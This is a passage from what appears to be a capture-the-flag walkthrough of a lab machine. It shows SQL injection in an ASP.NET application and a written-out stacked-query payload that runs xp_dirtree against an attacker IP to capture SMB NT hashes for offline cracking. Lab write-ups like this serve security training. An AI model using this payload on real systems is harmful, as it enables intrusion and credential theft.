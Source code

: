
Another directory houses a ASP.NET web application. I smell SQL injection...

### SQL Injection

Long story short, this is an example application from OWASP Top 10 Injection exercises and it's vulnerable to all sorts of SQL injection techniques.


{% include image.html image_alt="b4ac43fd.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/b4ac43fd.png" %}


Using the `ORDER BY` technique, I was able to determine the UNION columns to be 25. Armed with that insight, we can inject the following query to determine the current user.


{% include image.html image_alt="a287b22c.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/a287b22c.png" %}


As you can see from above, the current user is `giddy\stacy`. We can actually use an undocumented stored procedure (`xp_dirtree`) to steal SMB credentials. This technique is used by threat actors in the wild to harvest SMB credentials in combination with [watering-hole attack](https://en.wikipedia.org/wiki/Watering_hole_attack).

Here's how.

### Harvesting SMB Credentials

On your attacking machine, assuming it's Kali Linux, you can set up a SMB server to capture SMB credentials using Metasploit's auxiliary module `auxiliary/server/capture/smb` like so.


{% include image.html image_alt="1fb1b025.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/1fb1b025.png" %}


Execute the undocumented stored procedure from the web application like so.

```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18; EXEC master.sys.xp_dirtree '\\10.10.14.169',1,1
```


{% include image.html image_alt="b6c03745.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/b6c03745.png" %}


The moment the request is sent, the SMB credentials are captured.


{% include image.html image_alt="77140cef.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/77140cef.png" %}


We can now send the captured NT hashes for offline cracking by John the Ripper.


{% include image.html image_alt="64dfb5ea.png" image_src="/c702d237-95ac-42a4-8d58-03ac0833798c/64dfb5ea.png" %}

